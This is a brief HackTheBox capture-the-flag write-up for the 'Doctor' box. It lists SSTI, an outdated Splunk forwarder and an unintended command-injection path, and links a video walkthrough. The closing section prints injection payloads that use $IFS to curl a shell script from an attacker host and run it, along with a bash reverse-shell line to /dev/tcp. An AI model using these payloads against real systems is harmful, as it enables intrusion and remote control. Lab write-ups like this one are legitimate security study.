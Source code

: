 ```yaml
---
layout: post
category: writeup
---
```



- doctor is an easy box from HTB
- vulnerable SSTI to RCE
- outdated splunkforwarder
- unintended RCE in content field




[![Doctor](https://img.youtube.com/vi/uxbwCMNQ2WA/0.jpg)](https://www.youtube.com/watch?v=uxbwCMNQ2WA "Doctor Walkthrough")


- as far as the uninteded path since i don't complete it i will explain it here:

first you will need to curl in a bash  payload and save to `/var/www/html`. next you will need to run it, so the payloads should look something like this:


```
# first payload
http://IP/$('curl'$IFS'http://IP/shell.sh'$IFS'-o'$IFS'/var/www/html/shell.sh')

# second payload

http://ip/$('bash'$IFS'/var/www/html/shell.sh')

# contents of shell.sh:

bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'
```
